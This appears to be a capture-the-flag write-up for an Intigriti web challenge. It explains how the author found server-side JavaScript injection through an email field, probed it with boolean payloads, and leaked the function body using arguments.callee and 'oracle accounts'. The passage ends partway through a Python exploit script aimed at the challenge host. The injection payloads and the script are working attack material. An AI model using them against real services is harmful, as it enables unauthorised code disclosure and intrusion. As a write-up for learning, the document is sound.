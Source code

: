 Suddenly, an idea came to my mind: "maybe try JavaScript?", so I tried `abc@abc.com" + this + "1`, no error.

Then, I tried `abc@abc.com" + String.fromCharCode(49) + "`, the result is still user03, bingo! (`ascii('1') = 49`)

Now, I know that it's part of JavaScript, what to do next?

I tried to manually search what is available by using a boolean-based injection.

For example, `abc@abc.com" + (require ? "1" : "2") + "`, if `require` is available, the user with email `abc@abc.com1` is returned(which is user03), otherwise it returns `null` because email `abc@abc.com2` is not exist.

I found that `arguments` is available, which means we are in a function, so I want to know what is the function body.

How do we get function body without knowing the function name? Some JavaScript magic! `arguments.callee.toString()` is the answer.

We can use the same way to leak the content, like `abc@abc.com" + (arguments.callee.toString()[0] === "a" ? "1" : "2") + "` but it's quite slow, there is a better way.

First, we create what I called `oracle account`, like the following:

1. account_oracle_0 with email test@oracle.com0
2. account_oracle_1 with email test@oracle.com1
3. ...
4. account_oracle_a with email test@oracle.coma
5. account_oracle_z with email test@oracle.comz


Then, we create another account(say user_leak) with email `test@oracle.com" + arguments.callee.toString()[0]+ "`

If the result of searching user_leak is `account_oracle_a`, then I know that the first character is `a`.

Here is the full exploit script to leak the function body:

```py
import requests
import json
import concurrent.futures
import string

BASE_URL = 'https://challenge-0123.intigriti.io'
LOGIN_URL = BASE_URL + '/login.html'
EDIT_URL = BASE_URL + '/editor.html'
QUERY_URL = BASE_URL + '/api/friends?q='

SKIP_CREATE_ORACLE = 0
MAX_WORKERS = 15
charset = string.printable

def create_oracle(c):
  session = requests.session()
  session.post(LOGIN_URL, data={
    "username": "account_oracle_" + c,
    "password": "account_oracle_" + c,
  })
  resp = session.post(EDIT_URL, data={
    "email": "test@oracle.com" + c
  })
  if resp.status_code != 200:
    print(resp.status_code)
    print(resp.text)

def leak_char(index):
  payload = f'test@oracle.com" + (arguments.callee.toString()[{index}]) +"'
```